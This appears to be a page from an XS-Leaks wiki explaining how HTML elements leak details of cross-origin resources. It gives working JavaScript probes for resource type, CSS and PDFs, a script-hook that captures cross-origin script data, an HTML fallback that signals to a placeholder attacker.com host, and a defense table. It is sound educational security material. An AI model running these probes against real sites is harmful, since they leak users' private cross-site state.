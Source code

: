 +++
title = "Element leaks"
description = ""
category = "Attack"
abuse = [
    "HTMLElement",
]
defenses = [
    "SameSite Cookies"
]
menu = "main"
weight = 2
+++

Some HTML Elements might be used to leak a portion of data to a cross-origin page.
For example, the below media resources can leak information about its size, duration, type. 

- [HTMLMediaElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLMediaElement) leaks the media `duration` and the `buffered` times.
- [HTMLVideoElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLVideoElement) leaks the `videoHeight` and `videoWidth` 
  some browsers may also have `webkitVideoDecodedByteCount`, `webkitAudioDecodedByteCount` and `webkitDecodedFrameCount`
- [getVideoPlaybackQuality()](https://developer.mozilla.org/en-US/docs/Web/API/VideoPlaybackQuality) leaks the `totalVideoFrames`.
- [HTMLImageElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement) leaks the `height` and `width` but if the image is invalid they will be 0 
  and [`image.decode()`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement/decode) will get rejected.

It's possible to differentiate between media types via unique property for a given media type. For example, it is `videoWidth` for a `<video>`, or `duration` for an `<audio>`. The below snippet shows an example code that returns the type of a resource. 
```javascript
async function getType(url) {
    // Detect if resource is audio or video
    let media = document.createElement("video");
    media.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (media.videoWidth) {
    return "video";
    } else if (media.duration) {
    return "audio"
    }
    // Detect if resource is an image
    let image = new Image();
    image.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (image.width) return "image";
}
```

## Abusing CORB
[CORB]({{< ref "/docs/attacks/browser-features/corb.md" >}}) is a feature of Chrome that makes responses empty if the wrong content type is used.
This means that if the type is wrong it’s not cached.
An ifCached function can be found at [Cache Probing]({{< ref "/docs/attacks/cache-probing.md" >}})
```javascript
async function isType(url, type = "script") {
  let error = false;
  // Purge url
  await ifCached(url, true);
  // Attempt to load resource
  let e = document.createElement(type);
  e.onerror = () => error = true;
  e.src = url;
  document.head.appendChild(e);
  // Wait for it to be cached if its allowed by CORB
  await new Promise(resolve => setTimeout(resolve, 500));
  // Cleanup
  document.head.removeChild(e);
  // Fix for "images" that get blocked differently.
  if (error) return false
  return ifCached(url);
}
```

## Abusing getComputedStyle
[getComputedStyle](https://developer.mozilla.org/en-US/docs/Web/API/Window/getComputedStyle) can be used to leak CSS style sheets.  
This function just checks if there has been a style applied to the body.
```javascript
async function isCSS(url) {
    let link = document.createElement('link');
    link.rel = 'stylesheet';
    link.type = 'text/css';
    link.href = url;
    let style1 = JSON.stringify(getComputedStyle(document.body));
    document.head.appendChild(link);
    await new Promise(resolve => setTimeout(resolve, 500));
    let style2 = JSON.stringify(getComputedStyle(document.body));
    document.head.removeChild(link);
    return (style1 !== style2);
}
```
## PDF
There are [Open URL Parameters](https://bugs.chromium.org/p/chromium/issues/detail?id=64309#c113) that allow some control over the content such as `zoom`, `view`, `page`, `toolbar`.  
For chrome, a PDF can be detected with [frame counting]({{< ref "/docs/attacks/frame-counting.md" >}}) because an `embed` is used internally.
```javascript
async function isPDF(url) {
    let w = open(url);
    await new Promise(resolve => setTimeout(resolve, 500));
    let result = (w.length === 1);
    w.close();
    return result;
}
```
{{< hint warning  >}} There will be false positives if the page has other embeds. {{< /hint >}}

## Script tag
Leaks the contents of a cross origin script during execution.  
The contents of a function can be leaked using `.toString()` and variables may also be assigned to the `window`.  
Even if the data is not accessible from the window it’s still possible to hook a function that it uses.  
```javascript
let hook = window.Array.prototype.push;
window.Array.prototype.push = function() {
    console.log(this);
    return hook.apply(this, arguments);
}
```
{{< hint tip >}} A paper was made using this attack [link](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf) {{< /hint >}}

## When Javascript can’t be used
If JavaScript is disabled it's still possible to leak some information about cross-origin resources. For example, an `<object>` can be used to detect whether a resource responds with *Error Code*. What happens is that if a resource `//example.org/resource` returns an error in `<object data=//example.org/resource>fallback</object>` then `fallback` will be rendered [^fallback] [^leaky-images]. It's possible to inject another `<object>` inside that will leak the information to an outside server, or detect it with CSS [^xsleaks-nojs].
The below code embeds `//example.org/404` and if it responds with *Error* then a request to `//attacker.com/?error` is also made as a fallback.
```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

## Defense

    | Attack Alternative | [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
    | :----------------: | :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
    |     Type leaks     |                                         ✔️                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |

